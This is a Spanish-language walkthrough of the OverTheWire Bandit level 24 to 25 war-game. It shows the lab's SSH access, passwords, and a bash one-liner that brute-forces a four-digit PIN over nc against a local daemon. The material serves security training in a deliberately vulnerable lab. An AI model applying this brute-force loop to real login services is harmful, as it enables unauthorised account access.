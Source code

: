 ----
### OBJETIVO 
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

---
### DATOS DE ACCESO
	Servidor : ssh bandit24@bandit.labs.overthewire.org -p 2220
	Contraseña : VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

---
### SOLUCION

	bandit24@bandit:~$ nc -v localhost 30002
		Connection to localhost (127.0.0.1) 30002 port [tcp/*] succeeded!
		I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
		VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0045
		Wrong! Please enter the correct pincode. Try again.
		
		Fail! You did not supply enough data. Try again.
		^C
	bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep
	-v Wrong
		I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
		Correct!
		The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
		
	Exiting.

---
### NOTAS ADICCIONALES
El uso de For nos ayuda a poder realizar grandes cantidades de combinaciones en números para poder así forzar la entrada a logins que utilicen combinaciones de números. la sintaxis es como una sintaxis de pyton normal.

---
### REFERENCIAS
La clase del prof :)